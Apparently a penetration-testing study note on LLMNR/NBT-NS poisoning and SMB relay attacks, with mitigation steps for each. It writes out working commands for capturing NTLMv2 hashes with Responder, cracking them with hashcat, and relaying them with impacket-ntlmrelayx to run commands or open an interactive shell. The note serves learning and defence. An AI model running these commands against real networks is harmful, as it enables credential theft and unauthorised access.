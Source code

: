 ## LLMNR Poisoning 
- For [reference](https://tcm-sec.com/llmnr-poisoning-and-how-to-prevent-it/)
- Used to identify hosts when DNS fails to do so
- Previously known as NBT-NS
- Key flaw is that the services utilize a user's username and NTLMv2 hash when appropriately responded to   
-  `sudo responder -I eth0 -dwPv` -- this will give hash for user
- `hashcat --help | grep NTLM` -- this will give all module for NTLM in hashcat
- `hashcat -m 5600 hashes.txt /path/to/wordlist`
###### Mitigation
- To disable LLMNR and NBT-NS
	- `Local Computer Policy > Computer Configuration > Administrative Templates > Network > DNS Client > Turn Off Multicast Name Resolution > enable`
- If a company must use or cannot disable LLMNR/NBT-NS, the best course of action is 
	- Require Network Access Control
	- Require long and complex user passwords

## SMB Relay Attacks
- For [reference](https://tcm-sec.com/smb-relay-attacks-and-how-to-prevent-them/)
- Instead of cracking hashes gathered with Responder, we can instead relay hose hashes to specific machines and potentially gain access.
- Requirement:
	- SMB signing must be **disabled** or **not enforced** on the target.
	- Relayed user credentials must be admin on machine for any any real value
- By default, SMB signing is not enabled or enforced on workstations. It is enabled or enforced on servers
- `nmap --script=smb2-security-mode -p445 IP -Pn`
- SMB Relay
	- `sudo mousepad /etc/responder/Responder.conf` SMB and HTTP off
	- `sudo responder -I eth0 -dwP`
	- Now we have to set up NTML relay
		- `impacket-ntlmrelayx -tf targets.txt -smb2support` or 
		- `impacket-ntlmrelayx -tf targets.txt -smb2support -i` -- i for interactive session 
		- after getting interactive session use `nc 127.0.0.1 1100`
		- or `impacket-ntlmrelayx -tf targets.txt -smb2support -c "whoami"` 
- In lab try it on user-2
###### Mitigation
- Enable SMB Signing on all devices
	- Pro: Completely stops the attack
	- Con: Can cause performance issues with file copies
- Disable NTLM authentication on network
	- Pro: Completely stops the attack
	- Con: if Kerberos stops working, windows defaults back to NTLM
- Account tiering
	- Pro: Limits domain admins to specific tasks (e.g. only log onto servers with need for DA)
	- Con: Enforcing the policy may be difficult
- Local admin restriction
	- Pro: Can prevent a lot of lateral movement
	- Con: Potential increase in the amount of service desk tickets


